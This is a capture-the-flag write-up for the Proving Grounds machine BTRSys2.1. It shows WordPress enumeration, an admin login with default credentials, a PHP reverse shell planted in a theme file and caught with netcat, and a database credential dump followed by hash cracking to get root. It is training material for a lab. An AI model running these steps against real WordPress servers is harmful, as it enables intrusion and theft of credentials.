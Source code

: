 ```yaml
---
title: "Proving grounds Play: BTRSys2.1"
layout: post
date: 2023-10-02 04:00
categories: writeup
---
```


Proving grounds Play - BTRSys2.1 CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08eee3ff3120876c12e71caac4e754f2 (RSA)
|   256 ade11c7de78676be9aa8bdb968927787 (ECDSA)
|_  256 0ce1eb060c5cb5cc1bd1fa5606223167 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## 80/tcp - open  http - Apache httpd 2.4.18 ((Ubuntu))

http://192.168.169.50/ = Just a snake gif.

### Directory Fuzzing

Discovered robots.txt file.

```text
Disallow: Hackers
Allow: /wordpress/


 .o+.                    :o/                                                   -o+`                
  /hh:                    shh`                                                  +hh-                
  /hh:                    shh`                         -/:                      +hh-                
  /hh:                    shh`                         +s+                      +hh-                
  /hh/............   `....shh-....   ...............`  `-`   `..............`   +hh-          ..    
  /hhyyyyyyyyyyyyy/ `syyyyyhhyyyyy. -yyyyyyyyyyyyyyy/  oys   +ssssssssssssss/   +hh-        .+yy-   
  /hh+---------/hh+  .----yhh:----  :hho------------`  yhy`  oyy------------`   +hh-      .+yys:`   
  /hh:         -hh+       shh`      :hh+               yhy`  oyy                +hh-   `.+yys/`     
  /hh:         -hh+       shh`      :hh+               yhy`  oss          `--   +hhsssssyhy/`       
  /hh:         -hh+       shh`      :hh+               yhy`  `-.          +yy.  +hho+++osyy+.       
  /hh:         -hh+       shh`      :hh+               yhy`               +yy.  +hh-    `/syy+.     
  /hho:::::::::+hh+       shh`      :hh+               yhy`  .::::::::::::oyy.  +hh-      `/yyy/`   
  :yyyyyyyyyyyyyyy:       +ys`      .yy:               oys   +sssssssssssssss`  /ys.        `/sy-   
   ```````````````         `         ``                 `     ``````````````     ``                
```

http://192.168.169.50/wordpress/

## WPScan

```sh
wpscan --url http://192.168.169.50/wordpress/ --enumerate u --enumerate p --enumerate t
```

### Usernames

- btrisk
- admin

http://192.168.169.50/wordpress/wp-login.php

Login to the admin account using credentials `admin:admin`.

## Initial Foothold

Download pentest monkey PHP reverse shell and make changes accordingly. 

Navigate to Dashboard ➡️ Appearance ➡️ Editor ➡️ Comments.php. Ensure the changes we are making is to the right theme, and in order to confirm the theme is use to a particular page is by view-source of the page and check the theme.


Replace the contents of the `comments.php` file with the pentest monkey revserse shell and save the file.

Now navigate to the `http://192.168.169.50/wordpress/` page and click the comments button to trigger the reverse shell.

```sh
naveenj@hackerspace:|09:44|~/proving_grounds/BTRSys2.1/files$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.190] from (UNKNOWN) [192.168.169.50] 53568
Linux ubuntu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:45:09 up  1:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (855): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

Check the `wp-config.php` for database credentials and then use them to login to the mysql server. If there is any issue with the shell, for example:

```sh
www-data@ubuntu:/home/btrisk$ mysql -uroot -prootpassword!
mysql -uroot -prootpassword!
mysql: [Warning] Using a password on the command line interface can be insecure.
```

If there are no further update in the shell, then do the follwing command.

```sh
/usr/bin/script -qc /bin/bash /dev/null
```

This will resolve the issue and provide the right shell to work with.

### Login to mysql

```sh
www-data@ubuntu:/$ mysql -uroot -prootpassword!
mysql -uroot -prootpassword!
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 132
Server version: 5.7.17-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| deneme             |
| mysql              |
| performance_schema |
| phpmyadmin         |
| sys                |
| wordpress          |
+--------------------+
7 rows in set (0.00 sec)

mysql> use wordpress;
use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------------------+
| Tables_in_wordpress        |
+----------------------------+
| wp_abtest_experiments      |
| wp_abtest_goal_hits        |
| wp_abtest_goals            |
| wp_abtest_ip_filters       |
| wp_abtest_variation_views  |
| wp_abtest_variations       |
| wp_commentmeta             |
| wp_comments                |
| wp_links                   |
| wp_masta_campaign          |
| wp_masta_cronapi           |
| wp_masta_list              |
| wp_masta_reports           |
| wp_masta_responder         |
| wp_masta_responder_reports |
| wp_masta_settings          |
| wp_masta_subscribers       |
| wp_masta_support           |
| wp_options                 |
| wp_postmeta                |
| wp_posts                   |
| wp_term_relationships      |
| wp_term_taxonomy           |
| wp_terms                   |
| wp_usermeta                |
| wp_users                   |
+----------------------------+
26 rows in set (0.00 sec)

mysql> select * from wp_users;
select * from wp_users;
2 rows in set (0.00 sec)

mysql> 
```

```text
root: a318e4507e5a74604aafb45e4741edd3
```

Crack the hash for the above, and use switch user command to login to root user. Cracked password for root `roottoor`.

```sh
www-data@ubuntu:/$ su root
su root
su: must be run from a terminal         #issue with the terminal
www-data@ubuntu:/$ /usr/bin/script -qc /bin/bash /dev/null          #resolution
/usr/bin/script -qc /bin/bash /dev/null
www-data@ubuntu:/$ su root          #switch user to root
su root
Password: roottoor

root@ubuntu:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).